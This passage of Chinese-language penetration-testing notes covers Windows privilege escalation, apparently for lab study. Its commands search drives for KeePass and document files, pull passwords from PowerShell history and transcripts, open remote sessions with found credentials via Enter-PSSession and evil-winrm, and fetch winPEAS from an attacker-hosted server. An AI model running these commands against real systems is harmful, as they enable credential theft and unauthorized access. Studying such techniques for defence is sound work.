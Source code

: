 ```armasm
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

获得密码后可以运行用户下的cmd

```armasm
PS C:\Users\steve> runas /user:backupadmin cmd
```

### 16.1.4 powershell历史记录

查看历史

```armasm
Get-History
```

历史文件位置

```armasm
(Get-PSReadlineOption).HistorySavePath
```

查看历史文件

```armasm
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

历史文件中找到敏感文件

```armasm
type C:\Users\Public\Transcripts\transcript01.txt
```

敏感文件里有密码和session连接信息，使用信息进行session连接

```armasm
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
whoami
```

PSSession下执行命令可能没有回显，使用winrm，主要密码中特殊字符需要转译

```armasm
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

### 16.1.5 自动枚举

winpeas

```armasm
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80

powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```

